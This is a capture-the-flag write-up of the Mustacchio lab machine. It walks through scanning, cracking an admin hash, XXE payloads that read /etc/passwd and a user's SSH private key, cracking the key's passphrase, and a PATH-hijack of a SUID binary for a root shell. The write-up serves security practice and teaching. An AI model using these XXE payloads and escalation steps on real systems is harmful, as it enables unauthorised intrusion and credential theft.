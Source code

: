 # Mustacchio

## Nmap

```
nmap 10.10.81.131 -p- -sS -sV

PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http?
8765/tcp open  ultraseek-http?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

A quick glance at port 80 shows the following root page:

![](<../../../.gitbook/assets/image (1744).png>)

Browsing to port 8765 in a web browser reveals a login page:

![](<../../../.gitbook/assets/image (1745).png>)

I initially tried brute forcing a login and was unsuccessful. I also executed Dirsearch.py again this and did not pull any interesting information.

Back to port 80 I then run Dirsearch.py again it.

```
sudo python3 dirsearch.py -u http://10.10.81.131/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -r --full-url -t 50 
```

![](<../../../.gitbook/assets/image (1746).png>)

This leads to the discovery og the `/custom/` directory. Viewing the `/js` directory within `/custom/` we find the file users.bak.

![](<../../../.gitbook/assets/image (1747).png>)

Opening the file in DB Browser we see the following information below:

![DB Browser](<../../../.gitbook/assets/image (1748).png>)

We now have the username and hash of: `admin:1868e36a6d2b17d4c2745f1659433a54d4bc5f4b`. Running the hash against `hash-identifier` shows this is likely either a SHA-1 or MySQL5 hash.

![](<../../../.gitbook/assets/image (1749).png>)

Knowing this I then run the hash against `Hashcat`. Specifying the rockyou.txt wordlist

```
hashcat -m 100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

![](<../../../.gitbook/assets/image (1750).png>)

With the password now cracked we have the complete credentials of: `admin:bulldog19`. It is then possible to login on the admin panel on port 8765.

![](<../../../.gitbook/assets/image (1751).png>)

Viewing the source of the page we can see a comment left advising the user Barry can login with his SSH key.

![](<../../../.gitbook/assets/image (1752).png>)

Looking close again at the source code we see a directory path of `/auth/dontforget.bak`.

![](<../../../.gitbook/assets/image (1753) (1).png>)

Viewing the contents of `dontforget.bak`:

![](<../../../.gitbook/assets/image (1754).png>)

Pasting this into the comment field on /home.php and submitted we can see the content being viewed.

![](<../../../.gitbook/assets/image (1755).png>)

We can take this and attempt to use the same format to perform XXE and retrieve a file from the target system.

Essentially below we are taking the skeleton of the XML request in `dontforget.bak`. Ensuring the Name and author fields are still populated. The line '`<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>`' defines the file to read and binds it to the variable 'xxe'.

Then back at the XML shown below we are going to print the contents of the file defined in the 'xxe' variable into the comment field so it is viewable.

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```

Where when the code above is run on /home.php we are able to view /etc/passwd.

![](<../../../.gitbook/assets/image (1756).png>)

Now that we know that the user Barry has a SSH key we can attempt to read it from the common SSH location.

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa">]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```

![](<../../../.gitbook/assets/image (1757) (1).png>)

After saving the key locally and setting the correct permissions with `chmod` we are prompted for a passphrase.

![](<../../../.gitbook/assets/image (1758).png>)

`ssh2john.py` can then be invoked to create a hash of the key ready for cracking.

```markup
/usr/share/john/ssh2john.py barry_rsa >> barry_hash.txt
```

Which can then be easily cracked using John.

```markup
sudo john --wordlist=/usr/share/wordlists/rockyou.txt /home/kali/Desktop/barry_hash.txt 
```

![](<../../../.gitbook/assets/image (1759).png>)

We are then able to login as barry.

![](<../../../.gitbook/assets/image (1760).png>)

I then used `SCP` to transfer over linpeas.sh to the target machine.

```markup
scp -i <id_rsa> <FileToUpload> barry@<IP>:/<Path>
```

After running linpeas.sh it soon finds a custom SUID binary for `/home/joe/live_log`.

![](<../../../.gitbook/assets/image (1761).png>)

Running the binary it looks like its grabbing the results from `/var/log/nginx/access.log` as shown by linpeas.sh

![](<../../../.gitbook/assets/image (1762).png>)

We can see from running the strings command against the binary that at one point the binary will call the 'tails' binary. As we can see from below this has not been given an absolute path and is subject to being hijacked.

![](<../../../.gitbook/assets/image (1763).png>)

From here I then created a file called 'tail' in the home directory for barry with the following contents:

```markup
#!/bin/bash
/bin/sh
```

Then set the file to be executable.

```markup
chmod +x tail
```

Then exported a new path that calls into our home directory before looking anywhere else so we can run our tail binary before the intended one is executed.

```markup
PATH=/home/barry:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

Then when executing the SUID live\_log binary this should call the tail binary in barry's home folder and spawn a root shell.

![](<../../../.gitbook/assets/image (1764).png>)
